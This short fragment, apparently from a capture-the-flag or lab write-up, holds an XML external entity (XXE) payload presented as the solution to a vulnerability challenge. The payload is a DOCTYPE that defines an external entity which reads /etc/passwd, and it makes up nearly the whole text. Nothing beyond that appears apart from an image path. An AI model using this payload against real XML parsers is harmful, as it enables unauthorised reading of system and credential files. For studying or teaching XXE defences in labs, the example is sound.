This payload solves the XXE vulnerability challenge.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<root>&test;</root>
```